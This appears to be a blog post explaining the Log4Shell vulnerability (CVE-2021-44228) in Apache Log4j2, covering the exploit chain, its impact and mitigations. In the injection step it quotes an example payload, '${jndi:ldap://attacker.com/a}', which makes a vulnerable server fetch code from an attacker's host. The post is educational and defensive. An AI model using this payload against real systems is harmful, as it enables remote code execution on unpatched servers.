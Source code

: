 ```yaml
---
title: "Security Vulnerability Analysis: A Deep Dive into the Log4j2 CVE-2021-44228 Exploit"
date: 2024-10-27
author: Ian Lusule
tags: [security, vulnerability, log4j2, java, exploit, analysis]
---
```


## Security Vulnerability Analysis: Log4j2 CVE-2021-44228

The Log4j2 vulnerability (CVE-2021-44228), also known as Log4Shell, was a critical remote code execution (RCE) vulnerability affecting the widely used Apache Log4j 2 logging library.  This post delves into the technical details of this vulnerability, its impact, and the methods used to exploit and mitigate it.

### Understanding the Vulnerability

Log4j2's `message lookup substitution` feature allows for dynamic variable substitution within log messages.  This feature, while convenient, was exploited by attackers.  The vulnerability stems from the ability to inject a specially crafted JNDI (Java Naming and Directory Interface) lookup string into the log message.  This string, when processed by Log4j2, would attempt to retrieve data from a remote server, potentially executing arbitrary code on the victim's system.

The exploit chain typically involves:

1. **Injection:** An attacker inserts a malicious JNDI lookup string into user input, such as a request parameter, HTTP header, or even a log message itself.  An example of a malicious string is: `${jndi:ldap://attacker.com/a}`.

2. **Lookup:** Log4j2 processes the log message and attempts to resolve the JNDI lookup.  This triggers a connection to the attacker's server.

3. **Code Execution:** The attacker's server responds with a serialized Java object containing malicious code.  Log4j2 deserializes this object, executing the attacker's code with the privileges of the application.

### Impact and Exploitation

The impact of this vulnerability was significant, allowing attackers to:

* **Remote Code Execution (RCE):** Gain complete control of the affected system.
* **Data Breaches:** Exfiltrate sensitive data.
* **Network Compromise:** Establish a foothold in the victim's network.
* **Lateral Movement:** Move to other systems within the network.


Exploitation was relatively straightforward, requiring only the injection of the crafted JNDI lookup string.  Many applications were vulnerable due to their reliance on Log4j2 without proper input validation or sanitization.

### Mitigation and Remediation

Several mitigation strategies were developed to address this vulnerability:

* **Upgrade:** The most effective mitigation is upgrading to a patched version of Log4j2 (version 2.17.0 or later).

* **Configuration Changes:**  Disabling message lookup substitution (`log4j2.formatMsgNoLookups=true`) can prevent the exploitation, although this might affect legitimate logging functionality.

* **WAF Rules:** Implementing Web Application Firewall (WAF) rules to detect and block malicious JNDI lookups.

* **Network Segmentation:** Isolating vulnerable systems to limit the impact of a successful exploit.

### Conclusion

The Log4j2 vulnerability highlighted the importance of secure coding practices, robust input validation, and timely patching.  This incident served as a stark reminder of the potential consequences of vulnerabilities in widely used libraries and the need for proactive security measures.  Understanding the technical details of such vulnerabilities is crucial for developers and security professionals to effectively protect systems from similar attacks.  Further research into similar JNDI injection vulnerabilities and their mitigation strategies remains essential for maintaining a secure computing environment.

